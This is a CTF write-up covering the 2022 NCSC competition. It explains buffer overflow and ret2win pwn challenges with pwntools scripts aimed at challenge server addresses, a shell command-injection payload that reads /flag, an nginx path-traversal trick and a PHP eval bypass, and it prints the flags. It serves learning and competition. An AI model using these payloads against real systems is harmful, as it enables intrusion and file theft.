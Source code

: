 # National Cyber Security Congress

NCSC, organized by Securinets, hosted an 8 hours CTF, started the 29th of January at 23:00 (GMT +1). <br/>
I've participated in the CTF with [Aziz Zribi](https://www.facebook.com/Aziz.Zribi.Z), [Zakaria Soussi](https://www.facebook.com/zakaria.soussi.12) & [Anas Chaibi](https://www.facebook.com/chanas07) as a team. We ranked the 7th out of 52 teams.

<br/>
<hr>

* ### Binary exploitation

  #### 1. Babypwn
    That's a pretty basic challenge, here is the source code:
    <details>
    <summary>Show</summary>

    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    void init_buffering() {
      setvbuf(stdout, NULL, _IONBF, 0);
      setvbuf(stdin, NULL, _IONBF, 0);
      setvbuf(stderr, NULL, _IONBF, 0);
    }
    int main(){
      int x = 0x41414141;
      char name[20];
      init_buffering(); // ignore this line
      puts("what's your name ?");
      gets(name);
      if(x != 0x41414141) {
        execve("/bin/sh", 0, 0);
      }
      return 0;
    }
    ```
    </details>

    We only need to overwrite `x` value in memory so we can just send a payload long enough to overwrite it. Here is a script for this challenge:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1239
    conn = remote('52.188.108.186',1239)

    conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' )

    conn.interactive()
    ```
    </details>

    And we get our shell & flag.

    <p align="center">
    <img src="/2022/NCSC/img/babyflag.png"><br/>
    </p>

  #### 2. Babypwn
    For this challenge, we get our source code:
    <details>
    <summary>Show</summary>

    ```C
    #include<stdio.h>
    #include<stdlib.h>
    #include<string.h>
    void win(){
      execve("/bin/sh", 0, 0);
    }
    void strip(char *format) {
      format[strcspn(format, "\n")] = 0;
    }
    void init_buffering() {
      setvbuf(stdout, NULL, _IONBF, 0);
      setvbuf(stdin, NULL, _IONBF, 0);
      setvbuf(stderr, NULL, _IONBF, 0);
    }
    int main(){
      init_buffering();
      puts("Freedom is all I want! you are free to choose your format specifier !");
      char buffer[60];
      char format[20];
      printf("> ");
      read(0, format, 20);
      strip(format);
      puts("Now, do what you want!");
      scanf(format,buffer);
      puts("good bye !");
      return 0;
    }
    ```
    </details>
    That's a ret2win, we have control on the `scanf`'s format & we'll be writing into `buffer`. We start gdb to do some tests, you can find the binary [here](https://github.com/M0ngi/CTF-Writeups/blob/main/2022/NCSC/pwn/freedom). We need to get our win address.

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb.png"><br/>
    </p>

    Now, we need to get the length of our payload. Since we have control over the format, we'll be reading a string using `%s` & we'll use this pattern: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccvvbbnn`.

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb2.png"><br/>
    </p>

    And we get a segmentation fault:

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb3.png"><br/>
    </p>

    Our RIP: `0x6e6e626276 ('vbbnn')`, we now know the proper payload to change the RIP: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv`

    Now we got everything we need for the exploit, here is our script:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1237
    conn = remote('52.188.108.186',1237)

    conn.send('%s')
    conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' + p64(0x00000000004011f6))

    conn.interactive()
    ```
    </details>

    And our flag is `Securinets{d4ce75b4a536228bfc8371bfba2fdd45}`

* ### Web
  #### 1.  Broken Pingyy 
    For this challenge, we get the source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
    if(isset($_POST['ip'])){
      $cmd=$_POST['ip'];
      $clean=escapeshellarg($cmd);
      if($output = shell_exec("bash -c 'ping -c1 -w3 $clean" ))
        echo "<pre>$output</pre>";
      else
        echo "an error has occurred !";
    }
    ?>
    ```
    </details>

    And a link to this page:

    <p align="center">
      <img src="/2022/NCSC/img/webpingy.png"><br/>
    </p>

    If we use `www.google.com` as an input, we'll get ` an error has occurred ! `, Let's have a look at the code.

    As a start, we notice that we have a missing `'` at the end of `shell_exec("bash -c 'ping -c1 -w3 $clean" )` which caused our error. Also we are using `escapeshellarg`, a quick lookup in php documentation gives the following: (Ref)[https://www.php.net/manual/en/function.escapeshellarg.php]

    ```
    escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes
    ```
    which means that our `$clean` variable should have a closing quote! Let's visualize this with an example, if we use `payload` as an input, saved in `$cmd`, after `escapeshellarg` we should have `$clean` equal to `'payload'` which means, `shell_exec` will be executed with `bash -c 'ping -c1 -w3 'payload'`. Therefor, if we escape the last quote & start our payload with a `;`, we should have `bash -c 'ping -c1 -w3 ';payload\'`. We'll be able to inject shell commands in our payload but we'll have to make use of the last quote to avoid getting an error, we can include an `;echo ` at the end of our payload to simply show that quote & avoid any errors. 
      
    Our final payload should look like this: `;cmd;echo \` which will result in executing `cmd` & that's our shell! Now we can try to get the content of `/flag` using `;cat /flag;echo \` as a payload & we get our flag!

    <p align="center">
      <img src="/2022/NCSC/img/webpingyflag.png"><br/>
    </p>
      
  #### 2.  Welcome To Web Universe
    
    For this challenge, we get a zip with the source code [Link](/2022/NCSC/Welcome%20To%20Web%20Universe)

    And a link to an empty page that contains `Everything is good afaik`.
      
    Looking at the source code, we know that we have a flask web server, if we examine the [main.py](/2022/NCSC/Welcome%20To%20Web%20Universe/src/main.py) we see that we have 2 routes, `/v1/status` & `/flag`, we'll be aiming for the flag route. If we check the link we got, we can see that we are in `/leetstatus`, this looks weird.
      
    Digging more into the files given, if we check the configuration file located in [nginx](/2022/NCSC/Welcome%20To%20Web%20Universe/nginx), we find this configuration
    
    ```config
    server {
      listen 80;
      server_name welcome.task;

      location /leet {
        proxy_pass http://api:5000/v1/;
      }

      access_log off;
      error_log /var/log/nginx/error.log error;
    }
    ```
      
    I don't have any knowledge about this kind of servers but looking at the `location` section, we can be redirecting `/leet` to our api's route `/v1/`. As if we are saying that `/leet` is replaced by `/v1/`, which makes sense because our current route `/leetstatus` will become `/v1/status` ! Now we want to navigate to our `/flag` route, we can use `/leet../flag` which will be transformed into `/flag` & we get our flag: 
      
    `Securinets{Nginx_Is_NoT_ThaT_GooD_AftER_All}`

  #### 3. Peehpee
    
    For this challenge, we get our source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
      //Show Page code source
      highlight_file(__FILE__);
      require "secret.php";
      if(isset($_GET["__"])&&isset($_GET["_"])){
        $x=$_GET["__"];
        $inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
        if($inp==="Kahla"){
          die("Hacking Attempt detected");
        }
        else{
          if(eval("return $inp=".$inp.";")==="Kahla"){
              echo $flag;
          }
          else{
              die("Pretty Close maybe ?");
          }
        }
      }
    ?>
    ```
    </details>
    
    We have 2 parameters, `_` & `__`, passed via GET request. We are saving `__` into `$x` & then we see somekind of a filter applied on `_`, allowing only alphabet characters, digits & the dollar sign `$`. After replacing unauthorized characters, we store that in `$inp`.
      
    Then we check `$inp` value, if equal to "Kahla" then we fail, else we have an `eval` which will change `$inp` value to whatever `$inp` contains, concatenated as a string. If the value of `$inp` is "Kahla" after executing `eval`, we'll get our flag.
      
    Since no check on `__` is done, we can pass `Kahla` in it & it'll be saved in `$x` & since we'll be setting `$inp` to whatever value it contains, we can pass `$x` (The $ is authorized) & it'll evaluate as `$inp = $x`. 
      
    As simple as that, we get our flag: `Securinets{PeehPee_1s_AlWAYs_H3r3}`

  #### 4. weird php
